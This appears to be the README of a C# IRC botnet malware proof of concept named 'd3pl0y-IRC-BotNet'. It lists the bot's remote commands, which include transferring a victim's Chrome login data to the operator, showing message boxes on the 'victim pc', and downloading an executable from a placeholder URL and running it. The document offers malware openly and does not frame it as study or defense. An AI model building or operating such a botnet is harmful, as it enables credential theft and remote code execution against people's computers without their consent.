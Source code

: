 d3pl0y-IRC-BotNet
=================

A C# irc bot malware POC.

Connects to an IRC server and receives commands.

!version - Bot version
!schrome - Begins a file transfer of a users chrome login data
!die - kills the bot
!mbox!The message - Shows a message box on the victim pc.
!download!http://linktofile/leethax.exe!C:\path\to\save\on\disk.exe!1 or 0 1 = run after download
